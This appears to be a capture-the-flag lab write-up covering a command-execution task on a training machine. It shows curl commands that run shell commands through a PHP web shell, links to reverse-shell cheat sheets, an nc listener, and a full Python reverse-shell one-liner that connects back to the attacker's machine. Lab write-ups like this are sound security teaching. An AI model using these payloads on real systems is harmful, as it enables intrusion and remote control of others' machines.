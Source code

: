Answer: `3`.

## [Task 5] Command Execution

### #5.0 - Instructions

It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access!

**Method 1: nc Reverse shell:**

This machine has been outfitted with `nc`, a tool that allows you to make and receive connections and send data. It is one of the most popular tools to get a reverse shell. Some great places to find reverse shell payloads are [highoncoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) and [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

After this you will have to do some additional enumeration to find pingu's ssh key, or hidden password.

**Method 2: Hidden passwords:**

Assuming my father hasn't modified since he took over my old PC, I should still have my hidden password stored somewhere,I don't recall though so you'll have to find it! `find` is the recommended tool here as it allows you to search for which files a user specifically owns.

### #5.1 - How many files are in the current directory?

~~~
$ curl -s --data-urlencode "cmd=ls -l" -X POST http://10.10.166.91/2591c98b70119fe624898b1e424b5e91.php | grep -v -e "^$" | grep -v "<"
total 20
-rw-rw-r-- 1 root root   378 Jan 15 21:19 2591c98b70119fe624898b1e424b5e91.php
-rw-r--r-- 1 root root  1282 Jan 15 21:30 administrator.php
-rw-r--r-- 1 root root 10918 Jan 15 20:20 index.html
~~~

there are `3` files in the current directory.

### #5.2 - Do I still have an account

*Hint: Check /etc/passwd*

So now, we can execute commands and we could answer all the questions using the web interface or `curl` as we did previously. However, this is not very convenient, and the ultimate objective is to get a reverse shell.

Let's try with python. First open a listener on your local machine:

~~~
$ rlwrap nc -nlvp 1234
~~~

Now send the following command via the web interface (adapt with your IP first):

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.**.**",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~
